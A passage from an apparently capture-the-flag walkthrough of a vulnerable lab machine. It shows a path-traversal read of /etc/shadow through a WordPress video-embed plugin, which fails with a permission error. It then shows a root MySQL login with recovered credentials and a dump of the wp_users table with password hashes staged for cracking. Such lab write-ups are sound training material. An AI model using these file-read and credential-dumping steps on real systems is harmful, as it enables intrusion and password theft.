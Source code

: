 ![](images/stapler23.png)

Unfortunately it does not work on /etc/shadow:

```
Warning: file_get_contents(../../../../../../etc/shadow): failed to open stream: Permission denied in /var/www/https/blogblog/wp-content/plugins/advanced-video-embed-embed-videos-or-playlists/inc/classes/class.avePost.php on line 78
```

Alright, we have some database credentials and port 3306 was open so let's login and see if we can find some user hashes to crack.

<br>

## MySQL Digging

`mysql -h $ip -u root -p`

And dumping the wp_users table in the wordpress database:

```
+----+------------+------------------------------------+---------------+-----------------------+------------------+---------------------+---------------------+-------------+-----------------+
| ID | user_login | user_pass                          | user_nicename | user_email            | user_url         | user_registered     | user_activation_key | user_status | display_name    |
+----+------------+------------------------------------+---------------+-----------------------+------------------+---------------------+---------------------+-------------+-----------------+
|  1 | John       | $P$B7889EMq/erHIuZapMB8GEizebcIy9. | john          | john@red.localhost    | http://localhost | 2016-06-03 23:18:47 |                     |           0 | John Smith      |
|  2 | Elly       | $P$BlumbJRRBit7y50Y17.UPJ/xEgv4my0 | elly          | Elly@red.localhost    |                  | 2016-06-05 16:11:33 |                     |           0 | Elly Jones      |
|  3 | Peter      | $P$BTzoYuAFiBA5ixX2njL0XcLzu67sGD0 | peter         | peter@red.localhost   |                  | 2016-06-05 16:13:16 |                     |           0 | Peter Parker    |
|  4 | barry      | $P$BIp1ND3G70AnRAkRY41vpVypsTfZhk0 | barry         | barry@red.localhost   |                  | 2016-06-05 16:14:26 |                     |           0 | Barry Atkins    |
|  5 | heather    | $P$Bwd0VpK8hX4aN.rZ14WDdhEIGeJgf10 | heather       | heather@red.localhost |                  | 2016-06-05 16:18:04 |                     |           0 | Heather Neville |
|  6 | garry      | $P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1 | garry         | garry@red.localhost   |                  | 2016-06-05 16:18:23 |                     |           0 | garry           |
```